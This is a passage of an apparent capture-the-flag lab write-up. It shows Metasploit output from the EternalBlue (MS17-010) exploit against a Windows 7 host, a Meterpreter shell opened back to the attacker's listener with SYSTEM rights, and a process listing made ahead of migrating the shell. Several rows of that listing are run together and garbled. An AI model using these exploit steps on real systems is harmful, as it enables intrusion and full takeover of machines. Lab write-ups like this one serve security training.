 ```bash
[*] 10.10.201.83:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.201.83:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.201.83:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.201.83:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.201.83:445 - Sending all but last fragment of exploit packet
[*] 10.10.201.83:445 - Starting non-paged pool grooming
[+] 10.10.201.83:445 - Sending SMBv2 buffers
[+] 10.10.201.83:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.201.83:445 - Sending final SMBv2 buffers.
[*] 10.10.201.83:445 - Sending last fragment of exploit packet!
[*] 10.10.201.83:445 - Receiving response from exploit packet
[+] 10.10.201.83:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.201.83:445 - Sending egg to corrupted connection.
[*] 10.10.201.83:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.201.83
[*] Meterpreter session 1 opened (10.10.100.83:4444 -> 10.10.201.83:49198) at 2020-11-11 02:08:15 +0000
[+] 10.10.201.83:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.201.83:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.201.83:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

SUCCESS! And it left me with `NT AUTHORITY\SYSTEM` credentials. At this point the machine was mine, but I had to make sure that I had a stable foothold on the machine before proceeding to search for flags.

### Foothold

The first step was making sure my shell on the host was stable. So I checked my pid and looked to see if I could migrate it to something like the print spooler.

```powershell
meterpreter > getpid 
Current pid: 1304
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 492   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 560   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.execorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe    NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exes.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exenlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.execes.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exem.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exesvchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 900   708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 948   708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1016  660   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exeost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1172  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
```